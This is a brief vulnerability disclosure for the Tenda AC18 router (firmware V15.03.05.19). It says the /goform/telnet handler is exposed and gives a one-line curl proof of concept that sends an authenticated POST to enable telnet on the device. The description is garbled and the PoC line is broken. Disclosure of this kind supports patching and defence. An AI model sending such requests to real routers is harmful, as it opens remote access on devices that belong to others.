


## Tenda AC18 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC18
* Version: V15.03.05.19(6318)

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC18/ac18_kf_V15.03.05.19(6318_)_cn.zip

### Vulnerability details

An issue was discovered in Tenda AC18 V15.03.05.19(6318). An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

#### PoC

```
curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0
 835927e379ccc302b848f4aouh1qw"
```


